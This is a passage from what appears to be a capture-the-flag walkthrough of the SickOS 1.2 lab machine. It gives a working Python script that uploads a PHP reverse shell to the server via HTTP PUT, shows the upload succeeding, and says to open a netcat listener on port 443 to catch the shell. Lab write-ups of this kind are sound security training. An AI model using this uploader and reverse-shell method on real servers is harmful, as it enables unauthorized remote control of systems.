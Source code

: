 I developed a python script to upload the php reverse shell to the server.

```python
#!/usr/bin/env python3

import requests
import sys

if len(sys.argv) != 2:
    print("Usage: {} shell.php".format(sys.argv[0]))
    sys.exit(0)

payload = open(sys.argv[1]).read()
name = sys.argv[1]
url = "http://192.168.179.173/test/{}".format(name)

try:
    r = requests.put(url, payload)
    status = r.status_code

    if status == 201:
        print("File {} created.".format(name))

except requests.ConnectionError as err:
    print("Error: {}".format(err))
```

We run the script adding as parameter the php file that contains the reverse shell.

```console
root@kali:~$ python3 uploader.py rev-shell.php                              
File rev-shell.php created.
```

As we see the file was created on the server.

![](/assets/images/sickos1.2/screenshot-3.png)

Then set up a netcat listener on port 443 and click on **rev-shell.php**.
